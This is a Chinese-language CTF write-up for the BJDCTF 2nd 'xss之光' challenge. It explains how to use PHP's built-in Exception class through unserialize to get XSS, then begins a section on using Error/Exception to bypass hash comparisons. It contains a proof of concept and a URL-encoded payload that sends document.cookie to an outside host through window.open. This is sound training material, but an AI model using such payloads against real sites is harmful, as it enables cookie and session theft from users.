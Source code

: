 ###### [BJDCTF 2nd]xss之光

进入题目，首先通过git泄露拿到源码：

```PHP
    <?php
    $a = $_GET['yds_is_so_beautiful'];
    echo unserialize($a);
```

仅看到一个反序列化函数并没有给出需要反序列化的类，这就遇到了一个反序列化但没有POP链的情况，所以只能找到PHP内置类来进行反序列化。又发现有个echo，没得跑了，就是我们刚才演示的利用Error或Exception内置类进行XSS，但是查看一下题目的环境发现是PHP
5，所以我们要使用Exception类。

由于此题是xss，所以只要xss执行window.open()就能把flag带出来，所以POC如下：

```PHP
    <?php
    $poc = new Exception("<script>window.open('http://de28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn/?'+document.cookie);</script>");
    echo urlencode(serialize($poc));
    ?>
```

得到payload如下：

```PHP
    /?yds_is_so_beautiful=O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A109%3A%22%3Cscript%3Ewindow.open%28%27http%3A%2F%2Fde28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn%2F%3F%27%2Bdocument.cookie%29%3B%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

执行后，得到flag就在 cookie 中：

#### 使用 Error/Exception 内置类绕过哈希比较

在上文中，我们已经认识了Error和Exception这两个PHP内置类，但对他们妙用不仅限于
XSS，还可以通过巧妙的构造绕过md5()函数和sha1()函数的比较。这里我们就要详细的说一下这个两个错误类了。

##### Error 类

**Error** 是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。

**类摘要：**

```PHP
    Error implements Throwable {
        /* 属性 */
        protected string $message ;
        protected int $code ;
        protected string $file ;
        protected int $line ;
        /* 方法 */
        public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
        final public getMessage ( ) : string
        final public getPrevious ( ) : Throwable
        final public getCode ( ) : mixed
        final public getFile ( ) : string
        final public getLine ( ) : int
        final public getTrace ( ) : array
        final public getTraceAsString ( ) : string
        public __toString ( ) : string
        final private __clone ( ) : void
    }
```

